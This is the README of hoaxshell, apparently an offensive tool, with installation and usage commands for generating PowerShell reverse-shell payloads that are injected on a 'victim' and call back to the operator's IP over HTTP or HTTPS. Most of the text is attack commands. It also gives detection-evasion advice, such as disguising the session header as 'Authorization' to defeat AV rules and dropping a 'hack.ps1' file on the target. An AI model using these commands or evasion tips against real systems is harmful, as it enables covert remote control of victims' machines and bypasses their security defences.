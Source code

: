 Find more screenshots [here](screenshots/).

## Installation
```
git clone https://github.com/t3l3machus/hoaxshell
cd ./hoaxshell
sudo pip3 install -r requirements.txt
chmod +x hoaxshell.py
```

## Usage
**Important**: As a means of avoiding detection, hoaxshell is automatically generating random values for the session id, URL paths and name of a custom http header utilized in the process, every time the script is started. The generated payload will work only for the instance it was generated for. Use the `-g` option to bypass this behaviour and re-establish an active session or reuse a past generated payload with a new instance of hoaxshell. 

### Basic shell session over http
When you run hoaxshell, it will generate its own PowerShell payload for you to copy and inject on the victim. By default, the payload is base64 encoded for convenience. If you need the payload raw, execute the "rawpayload" prompt command or start hoaxshell with the `-r` argument. After the payload has been executed on the victim, you'll be able to run PowerShell commands against it.  

#### Payload that utilizes `Invoke-Expression` (default)
```
sudo python3 hoaxshell.py -s <your_ip>
```  

#### Payload that writes and executes commands from a file
Use `-x` to provide a .ps1 file name (absolute path) to be created on the victim machine. You should check the raw payload before executing, make sure the path you provided is solid.
```
sudo python3 hoaxshell.py -s <your_ip> -x "C:\Users\\\$env:USERNAME\.local\hack.ps1"
```  

### Recommended usage to avoid detection (over http)
Hoaxshell utilizes an http header to transfer shell session info. By default, the header is given a random name which can be detected by regex-based AV rules. Use -H to provide a standard or custom http header name to avoid detection.
```
sudo python3 hoaxshell.py -s <your_ip> -i -H "Authorization"
sudo python3 hoaxshell.py -s <your_ip> -i -H "Authorization" -x "C:\Users\\\$env:USERNAME\.local\hack.ps1"
```

### Encrypted shell session (https + self-signed certificate)
This particular payload is kind of a red flag, as it begins with an additional block of code that instructs PowerShell to skip SSL certificate checks, which makes it suspicious and easy to detect as well as significantly longer in length. Not recommended.
```
# Generate self-signed certificate:
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365

# Pass the cert.pem and key.pem as arguments:
sudo python3 hoaxshell.py -s <your_ip> -c </path/to/cert.pem> -k <path/to/key.pem>

```  
